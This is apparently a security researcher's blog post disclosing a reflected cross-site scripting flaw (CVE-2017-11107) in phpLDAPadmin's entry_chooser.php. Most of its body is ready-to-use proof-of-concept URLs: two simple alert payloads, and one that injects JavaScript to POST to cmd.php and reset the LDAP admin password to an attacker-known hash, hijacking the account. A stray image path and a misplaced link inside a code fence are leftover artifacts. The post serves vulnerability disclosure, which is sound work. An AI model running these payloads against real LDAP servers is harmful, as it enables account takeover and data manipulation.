 +++
date = '2017-07-20T11:16:00+00:00'
draft = true
title = 'Hijacking phpLDAPadmin account using a Cross-site scripting vulnerability (CVE-2017-11107)'
+++

## Software Description

phpLDAPadmin is an web-based LDAP adminstration interface for viewing and manipulating LDAP information.

## Vulnerability Description

`$request['form']` and `$request['rdn']` parameters in file `htdocs/entry_chooser.php` aren't properly sanitized before being displayed to the user, which allows a remote attacker to inject arbitrary HTML/JavaScript code in a user's context.

{{< gist xd4rker 0bcac2062fe59df80b283790ad71b0c7 >}}

This vulnerability, if successfully exploited, can lead to data manipulation or information leakage as it is demonstrated in this PoC video:

{{< youtube Ww7LD_bmH-o >}}

---

## Proof of Concept (PoC)

**XSS via the `form` parameter:**

```https://github.com/leenooks/phpLDAPadmin/issues/50
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20alert(1);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**XSS via the `rdn` parameter (needs Chrome's XSS Auditor bypass):**

```
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form&element=base&rdn=test%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```

**Changing admin password to `1337`:**

```
%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253D<LOGIN_DN>%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27
```

**`<LOGIN_DN>`**: Triple URL-encoded login DN (e.g., `cn%253Dadmin%252Cdc%253Dldap%252Cdc%253Dcom`)

**PoC URL:**

```
 http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253Dadmin%25252Cdc%25253Dldap%25252Cdc%25253Dcom%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**References:**

- [https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731](https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731)
- [https://github.com/leenooks/phpLDAPadmin/issues/50](https://github.com/leenooks/phpLDAPadmin/issues/50)
  https://github.com/leenooks/phpLDAPadmin/issues/50
